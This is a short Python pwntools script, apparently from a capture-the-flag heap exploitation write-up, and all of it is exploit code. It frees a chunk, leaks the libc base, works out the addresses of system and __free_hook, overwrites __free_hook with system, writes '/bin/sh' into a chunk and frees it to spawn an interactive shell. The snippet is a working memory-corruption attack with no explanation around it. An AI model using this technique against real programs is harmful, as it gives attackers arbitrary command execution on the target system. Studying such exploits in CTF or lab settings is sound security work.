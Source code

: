```python

Buy(1, "AAAA", "BBBBBBBB")
Buy(2, "AAAA", "BBBB")

_free(1)

for i in range(0,2):
    Use(0, 4)
    Use(1, 4)

lib_system = lib_base + l.sym['system']
free_hook = lib_base + l.sym['__free_hook']

log.info(hex(lib_system))
log.info(hex(free_hook))

Buy(2, p64(free_hook), "BBBB")
Buy(2, "/bin/sh\x00", "BBBB")
Buy(2, p64(lib_system), "BBBB")

_free(3)
p.interactive()
```

```toc
```